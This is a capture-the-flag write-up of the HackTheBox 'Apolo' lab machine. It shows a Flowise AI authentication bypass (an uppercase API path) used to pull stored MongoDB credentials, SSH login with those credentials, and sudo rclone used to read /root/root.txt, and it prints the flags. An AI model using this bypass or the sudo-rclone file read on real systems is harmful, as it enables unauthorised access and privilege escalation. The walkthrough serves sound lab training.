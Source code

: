 ```yaml
---
title: "Apolo"
description: "In the lawless expanse of the Frontier Cluster, Apolo serves as a beacon of security, working to safeguard the Frontier Cluster's assets from bounty hunters."
pubDate: 2024-12-17
ctf: "HackTheBox University CTF 2024"
category: "fullpwn"
author: "sealldev"
section: "CTFs"
image: "images/24-htbuni/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/htbunictf2024#apolo)

#### User

Starting with a portscan, there are ports `80` and `22`.

I check out the webserver at `apolo.htb`:
![apolohome.png](images/24-htbuni/apolohome.png)

The about page references a subdomain: `ai.apolo.htb`.

Adding that to `/etc/hosts`, we can see it's using `Flowise AI`, but we can't access anything without credentials...

![apoloai.png](images/24-htbuni/apoloai.png)

Looking online, there is an existing [Authentication Bypass for `Flowise AI`](https://www.exploit-db.com/exploits/52001):
```
*POC:*
curl http://localhost:3000/Api/v1/credentials
For seamless authentication bypass. Use burpsuite feature Match and replace rules in proxy settings. Add rule Request first line api/v1 ==> API/V1
```

... lol


I setup Burp and add a match replace rule, then reload. Exploring we can see the credentials has some MongoDB credentials!

![apolomongocreds.png](images/24-htbuni/apolomongocreds.png)

The credentials contain a username and password pair for a user `lewis`:
```
mongodb+srv://lewis:C0mpl3xi3Ty!_W1n3@cluster0.mongodb.net/myDatabase?retryWrites=true&w=majority
```

We can then SSH as `lewis` for user!

User Flag: `HTB{llm_ex9l01t_4_RC3}`

#### Root

Looking for the root flag, I check `sudo -l`.

```bash
lewis@apolo:~$ sudo -l
Matching Defaults entries for lewis on apolo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lewis may run the following commands on apolo:
    (ALL : ALL) NOPASSWD: /usr/bin/rclone
```

Checking `rclone ` we have the ability to use `cat`, for example:
```bash
lewis@apolo:~$ rclone cat user.txt
2024/12/16 23:00:00 NOTICE: Config file "/home/lewis/.config/rclone/rclone.conf" not found - using defaults
HTB{llm_ex9l01t_4_RC3}
```

Let's try read `/root/root.txt` with the `sudo` version.
```bash
lewis@apolo:~$ sudo /usr/bin/rclone cat /root/root.txt
2024/12/16 22:59:05 NOTICE: Config file "/root/.config/rclone/rclone.conf" not found - using defaults
HTB{cl0n3_rc3_f1l3}
```

Flag: `HTB{cl0n3_rc3_f1l3}`